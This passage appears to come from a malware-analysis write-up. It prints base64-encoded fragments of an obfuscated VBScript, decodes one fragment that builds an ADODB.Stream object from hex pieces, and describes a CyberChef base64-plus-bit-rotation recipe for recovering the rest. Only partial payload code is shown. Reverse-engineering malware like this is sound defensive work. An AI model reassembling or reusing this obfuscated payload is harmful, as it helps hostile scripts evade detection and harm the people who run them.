 ```plaintext
VmFsdWUpDQpTZXQgSWF1bkVsb3VCYWV3R3ZuID0gTm90aGluZw0KU2V0IFJlb3NJbmRhVG9pdEFvaXVuID0gTm90aGluZw0KRW5kIEZ1bmN0aW9uDQpQcml2YXRlIEZ1bmN0aW9uIFN0bmZTZWlyQWVuZEJvYWV0KHNvbWVfdmFsdWUpDQpEaW0gUmV1dFJ0b3RJd20gDQpEaW0gTnV0ckhsaWVHdGNhUHNsIEFzIFN0cmluZw0KTnV0ckhsaWVHdGNhUHNsID0gQ3RkY0lwZWJBa2VsR2koIjQxNDQiKQ0KTnV0ckhsaWVHdGNhUHNsID0gTnV0ckhsaWVHdGNhUHNsICYgQ3RkY0lwZWJBa2VsR2koIjRmNDQ0MjJl
IikgJiBDdGRjSXBlYkFr
ZWxHaSgiNTM3NCIpDQpOdXRySGxpZUd0Y2FQc2wgPSBOdXRySGxpZUd0Y2FQc2wgJiBDdGRjSXBlYkFrZWxHaSgiNzI2NTYxNmQiKQ0KU2V0IFJldXRSdG90SXdtID0gQ3JlYXRlT2JqZWN0KE51dHJIbGllR3RjYVBzbCkNClJldXRSdG90SXdtLlR5cGUgPSAxDQpSZXV0UnRvdEl3bS5PcGVuDQpSZXV0UnRvdEl3bS5Xcml0ZSBzb21lX3ZhbHVlDQpSZXV0UnRvdEl3bS5Qb3NpdGlvbiA9ID
ANClJldXRSdG90SXdtLlR5cGUgPSAyIA0KUmV1dFJ0b3RJd20uQ2hhcnNldCA9IEN0ZGNJcGViQWtlbEdpKCI3NTczIikgJiBDdGRjSXBl
YkFrZWxHaSgiMmQ2MTczNjM2OTY5IikNClN0bmZTZWlyQWVu
...
```

There are many strings that look like base64. So I tried to base64-decode each of them. Here is where things get interesting.

On some strings, I successfully base64-decoded them. For example,

```
VmFsdWUpDQpTZXQgSWF1bkVsb3VCYWV3R3ZuID0gTm90aGluZw0KU2V0IFJlb3NJbmRhVG9pdEFvaXVuID0gTm90aGluZw0KRW5kIEZ1bmN0aW9uDQpQcml2YXRlIEZ1bmN0aW9uIFN0bmZTZWlyQWVuZEJvYWV0KHNvbWVfdmFsdWUpDQpEaW0gUmV1dFJ0b3RJd20gDQpEaW0gTnV0ckhsaWVHdGNhUHNsIEFzIFN0cmluZw0KTnV0ckhsaWVHdGNhUHNsID0gQ3RkY0lwZWJBa2VsR2koIjQxNDQiKQ0KTnV0ckhsaWVHdGNhUHNsID0gTnV0ckhsaWVHdGNhUHNsICYgQ3RkY0lwZWJBa2VsR2koIjRmNDQ0MjJl
```

becomes

```
Value)
Set IaunElouBaewGvn = Nothing
Set ReosIndaToitAoiun = Nothing
End Function
Private Function StnfSeirAendBoaet(some_value)
Dim ReutRtotIwm
Dim NutrHlieGtcaPsl As String
NutrHlieGtcaPsl = CtdcIpebAkelGi("4144")
NutrHlieGtcaPsl = NutrHlieGtcaPsl & CtdcIpebAkelGi("4f44422e
```

But this only worked on half of the strings, so it seems like the other half had some other encoding. Either they were encrypted (which malware doesn't normally do, as far as I'm aware of), or there's some other encoding other than base64 happening.

One thing I tried was to take some of the strings, and put them inside CyberChef and used the magic recipe. And wow I found [this recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true)Rotate_right(2,true)&input=SGFTZ2lOVEkzTnpOa00yUWlLU2tnSmlCRVlYa29kQ2tOQ2xCMWMyTkljbVZoSUQwZ1QyRnBiMVJ2YkdsVWIya29RM1JrWTBsd1pXSkJhMlZzUjJrb0lqVXlOemN6WkROa0lpa3BJQ1lnVFc5dWRHZ29kQ2tOQ2tWMVlXSk9hR3gwWVNBOUlGbGxZWElvZENrTkNrNWxjbXhVYm1OblJXNWhZbE5zWlhSbElEMGdVbWxuYUhRb1EyRm9hVVZ1TENBeUtTQW1JRTloYVc5VWIyeHBWRzlwS0VOMFpHTkpjR1ZpUVd0bGJFZHBLQ0kxTkRVeE0yUXpaQ0lwS1NBbUlGSnBaMmgwS0V4d2JISk5ZV1ZzVG1sd2FVWnVMQ0F5S1NBbUlGOE5DazloYVc5VWIyeHBWRzlwS0VOMFpHTko) that worked 😮

![cyberchef][cyberchef]

So with this, I managed to recover around 20% of the strings. Still got around 30% left. After more trying and trying, I decided to see what happens if I change the **RotateRight** amount to something else for the other strings.

